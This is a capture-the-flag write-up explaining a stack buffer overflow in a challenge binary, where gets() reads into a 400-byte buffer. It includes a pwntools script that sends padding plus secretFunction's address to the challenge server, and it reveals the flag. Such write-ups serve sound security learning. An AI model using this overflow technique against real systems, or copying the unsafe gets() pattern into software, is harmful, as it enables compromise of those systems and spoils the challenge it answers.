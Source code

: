 # [Pwn] Buffer Buffet

## 📚 Overview

> *"As an elite hacker invited to an exclusive digital banquet, you must navigate through the layers of a complex software system. Among the appetizers, main course, and dessert lies a hidden entry point that, when discovered, reveals a treasure trove of sensitive information."*

## 🔎 *Reconnaissance*

Buffer overflow vulnerability.

```c
undefined8 vuln(void){
  char local_198 [400];
  
  puts("Enter some text:");
  gets(local_198);
  printf("You entered: %s\n",local_198);
  return 0;
}
```

## ✨ Solution

We can utilise [pwntools](https://github.com/Gallopsled/pwntools) for the exploitation.

```py
from pwn import *
elf = context.binary = ELF("./vuln", checksec=False)

# p = process('./vuln')
p = remote("34.125.199.248", 4056)

flag = p32(elf.symbols.secretFunction)
payload = b"A"*0x198 + flag

p.sendlineafter(b"Enter some text:", payload)
p.interactive()
```

For the payload, we will insert the padding first to fill the `local_198` var and then followed by the `secretFunction` address to overwrite the EIP (*instruction pointer*) so that the programme will execute the function, hence printing out the flag.

## 🏳️ Flag

`OSCTF{buff3r_buff3t_w4s_e4sy!}`